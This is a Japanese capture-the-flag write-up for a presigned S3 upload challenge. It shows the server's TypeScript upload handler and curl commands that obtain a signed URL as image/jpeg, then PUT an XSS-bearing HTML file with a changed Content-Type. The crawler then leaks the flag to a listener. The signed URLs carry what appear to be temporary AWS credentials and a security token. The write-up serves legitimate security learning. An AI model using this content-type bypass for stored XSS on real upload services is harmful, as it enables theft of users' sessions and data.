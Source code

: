 # Pre Signed Upload:Introduction:20pts
Can you spot the flaws in the "Pre Signed URL"?  

- [Target](https://d1382gse6odsg2.cloudfront.net/)  

**source code**  

- [Web Application](https://drive.google.com/file/d/1l1aQRGiZmTzAXoLlCgwEU1tuamI4Jnjt/view?usp=drive_link)  

※ If no announcement is made, all "Crawler" source codes are the same.  

[https://d1382gse6odsg2.cloudfront.net/](https://d1382gse6odsg2.cloudfront.net/)  

# Solution
URLとアプリケーションのソースが渡される。  
クローラは[Server Side Upload](../Server_Side_Upload)と同様なようだ。  
アクセスするとこちらも同様のファイルアップロードサイトのようだ。  
![site.png](site/site.png)  
ソースの主要部分は以下の通りであった。  
```ts
~~~
server.post<{
  Body: {
    contentType: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.contentType || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  const allow = ['image/png', 'image/jpeg', 'image/gif'];
  if (!allow.includes(request.body.contentType)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
~~~
```
POST時の`contentType`が`['image/png', 'image/jpeg', 'image/gif']`のどれかであるか検証されている。  
その後に署名付きURLが降ってくるので、PUTしてアップロード完了となる。  
その際には`contentType`の検証が無いため、書き換えてPUTしてやればよい。  
Server Side Uploadと同じ、XSSを含むHTMLを用いる。  
```bash
$ curl -X POST -H 'Content-Type: application/json' -d '{"contentType":"image/jpeg","length":221}' --upload-file xs3.html 'https://d1382gse6odsg2.cloudfront.net/api/upload'
{"url":"https://uploadbucket-5b1bc63390-2-upload.s3.ap-northeast-1.amazonaws.com/upload/688dd9c1-5d70-4cf7-b628-f1984f640058?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4GLRJXCV5%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T004305Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEMn%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkgwRgIhALzlQT%2BN5N%2BMhXLFHWPu8GQESNundYM%2B7RxB3gwT84HdAiEAxvZOI09LWQ9w%2B%2Bv%2FHTTU5Z%2FXlWvITsKNdL1Gw9X3kqUqtwMI4v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARABGgwzMDg1MjE0MDc3MzYiDLs%2BIrdMhUsw29CUwCqLAxaVV5xp40t176DaBteDcdnhXSGCbkQla%2BbMr49%2BzQf44MxY70rYOWfQm8WXD8B8RUWWD%2F06g%2Bdz7yELwtoChhuzaIseYCeXwUvp%2F%2BUVKtAUUOqQ8CuMIH9xBNTl2Twpvs8qo7D1k4BiiQ4UnfKzECDUjg4zFp0lpRHYqRyz2dW7CS3PnPpMcnbgWo6%2BOKTW%2Fpjpuy8LZyXFbRt4o45vu74Htkay4vicxYiRISHyGhFm3geVqkpRwR0NRpABktXw8YvTulxMBJXnfTgyUEJJtThlbS5QhUMMmiCuH9bxD8h9YVekNG%2By2GduuB0BMs%2BdiN9Mg4uG6heRe2NTZhd%2Fc%2FCN61oG%2FmTBjM1v%2FOj3MYe%2FSLxYDsUkXnvOHv7ukK7oJ44Bsne846S35PXlUG1ruJh8jeupNm1RCo51vtqoW9X%2BFnmdn%2FgvBoP%2F4Yf2cX3LOKLzysFGRdmn435%2FsBWgXmGYfgpwslPVMOC2DEcvxJW7soA9i78Rtq2yODDFWMbQ8w0WPdo%2FK%2FLR7V3SMPScmLAGOp0BRk4zt74LtJHRC2iCHJP%2FXNhiyEtRYPTyyP8Yj3iILg0XMpm29zt5AkKO6SoVqQpSMG38G9AiybPZUaKX7Ba0qD60NjYhBFvNvO0PRUQUJXbfjzIVf7BtQo%2B74VkznUCWlJ0vD3zpg0YpcBCShgrWaha81BYD2DZtzS9s0o5ZxuKZvhXjxR09lCrDaVpWg8hYAzhjijRxiL%2F9leNI1A%3D%3D&X-Amz-Signature=be3f5cbb165a775faa24e87f0777f0baf31342996d275892118024937389ad56&X-Amz-SignedHeaders=content-length%3Bhost&x-id=PutObject","filename":"688dd9c1-5d70-4cf7-b628-f1984f640058"}
$ curl -X PUT -H 'Content-Type: text/html' --upload-file xs3.html 'https://uploadbucket-5b1bc63390-2-upload.s3.ap-northeast-1.amazonaws.com/upload/688dd9c1-5d70-4cf7-b628-f1984f640058?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4GLRJXCV5%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T004305Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEMn%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkgwRgIhALzlQT%2BN5N%2BMhXLFHWPu8GQESNundYM%2B7RxB3gwT84HdAiEAxvZOI09LWQ9w%2B%2Bv%2FHTTU5Z%2FXlWvITsKNdL1Gw9X3kqUqtwMI4v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARABGgwzMDg1MjE0MDc3MzYiDLs%2BIrdMhUsw29CUwCqLAxaVV5xp40t176DaBteDcdnhXSGCbkQla%2BbMr49%2BzQf44MxY70rYOWfQm8WXD8B8RUWWD%2F06g%2Bdz7yELwtoChhuzaIseYCeXwUvp%2F%2BUVKtAUUOqQ8CuMIH9xBNTl2Twpvs8qo7D1k4BiiQ4UnfKzECDUjg4zFp0lpRHYqRyz2dW7CS3PnPpMcnbgWo6%2BOKTW%2Fpjpuy8LZyXFbRt4o45vu74Htkay4vicxYiRISHyGhFm3geVqkpRwR0NRpABktXw8YvTulxMBJXnfTgyUEJJtThlbS5QhUMMmiCuH9bxD8h9YVekNG%2By2GduuB0BMs%2BdiN9Mg4uG6heRe2NTZhd%2Fc%2FCN61oG%2FmTBjM1v%2FOj3MYe%2FSLxYDsUkXnvOHv7ukK7oJ44Bsne846S35PXlUG1ruJh8jeupNm1RCo51vtqoW9X%2BFnmdn%2FgvBoP%2F4Yf2cX3LOKLzysFGRdmn435%2FsBWgXmGYfgpwslPVMOC2DEcvxJW7soA9i78Rtq2yODDFWMbQ8w0WPdo%2FK%2FLR7V3SMPScmLAGOp0BRk4zt74LtJHRC2iCHJP%2FXNhiyEtRYPTyyP8Yj3iILg0XMpm29zt5AkKO6SoVqQpSMG38G9AiybPZUaKX7Ba0qD60NjYhBFvNvO0PRUQUJXbfjzIVf7BtQo%2B74VkznUCWlJ0vD3zpg0YpcBCShgrWaha81BYD2DZtzS9s0o5ZxuKZvhXjxR09lCrDaVpWg8hYAzhjijRxiL%2F9leNI1A%3D%3D&X-Amz-Signature=be3f5cbb165a775faa24e87f0777f0baf31342996d275892118024937389ad56&X-Amz-SignedHeaders=content-length%3Bhost&x-id=PutObject'
```
PUTに成功したら、アップロードURLの`https://d1382gse6odsg2.cloudfront.net/upload/688dd9c1-5d70-4cf7-b628-f1984f640058`をクローラに報告する。  
すると以下のリクエストが到達した。  
```
GET
/?satoki=flag=flag{fc6f76dd4368e888c1bc878b7750b374c891639f}
```
flagが得られた。  

## flag{fc6f76dd4368e888c1bc878b7750b374c891639f}